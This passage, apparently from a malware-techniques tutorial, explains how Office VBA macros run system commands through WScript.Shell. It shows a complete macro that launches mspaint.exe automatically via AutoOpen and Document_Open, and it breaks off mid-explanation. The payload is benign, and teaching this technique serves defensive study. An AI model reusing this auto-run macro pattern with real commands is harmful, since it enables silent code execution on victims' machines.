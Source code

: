 ![malware](/assets/images/162/2025-07-02_13-08.png){:class="img-responsive"}    

One of the most basic but effective ways attackers use macros is by executing system commands via the `WScript.Shell` object. This allows the macro to run arbitrary programs, potentially leading to system compromise. Let's break down a simple `VBA` macro that executes a system application, in this case, `mspaint.exe`:     

```vb
Sub MeowMacro()
    Set shell_object = CreateObject("WScript.Shell")
    shell_object.Exec ("mspaint.exe")
End Sub

Sub AutoOpen()
    MeowMacro
End Sub

Sub Document_Open()
    MeowMacro
End Sub
```

First of all, we initialize a new `WScript.Shell` object, which is responsible for running system commands:    

